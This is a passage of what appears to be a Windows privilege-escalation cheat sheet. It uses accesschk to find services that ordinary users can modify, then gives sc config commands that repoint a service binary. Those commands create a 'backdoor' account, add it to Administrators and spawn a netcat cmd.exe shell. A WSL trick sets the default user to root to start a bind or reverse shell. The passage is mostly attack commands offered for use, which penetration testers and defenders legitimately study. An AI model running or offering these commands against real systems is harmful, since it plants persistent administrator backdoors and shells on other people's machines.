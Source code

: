 Using [`accesschk`](https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe) from Sysinternals or [accesschk-XP.exe - github.com/phackt](https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe)

```powershell
$ accesschk.exe -uwcqv "Authenticated Users" * /accepteula
RW SSDPSRV
        SERVICE_ALL_ACCESS
RW upnphost
        SERVICE_ALL_ACCESS

$ accesschk.exe -ucqv upnphost
upnphost
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW NT AUTHORITY\Authenticated Users
        SERVICE_ALL_ACCESS
  RW BUILTIN\Power Users
        SERVICE_ALL_ACCESS

$ sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
$ sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
$ sc stop <vuln-service>
$ sc start <vuln-service>
$ sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
$ sc stop <vuln-service>
$ sc start <vuln-service>
```

## EoP - Windows Subsystem for Linux (WSL)

Technique borrowed from [Warlockobama's tweet](https://twitter.com/Warlockobama/status/1067890915753132032)

> With root privileges Windows  Subsystem for Linux (WSL)  allows users to create a bind shell on any port (no elevation needed). Don't know the root password? No problem just set the default user to root W/ <distro>.exe --default-user root. Now start your bind shell or reverse.

```powershell
wsl whoami
./ubuntun1604.exe config --default-user root
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

Binary `bash.exe` can also be found in `C:\Windows\WinSxS\amd64_microsoft-windows-lxssbash_[...]\bash.exe`

Alternatively you can explore the `WSL` filesystem in the folder `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs\`

## EoP - Unquoted Service Paths
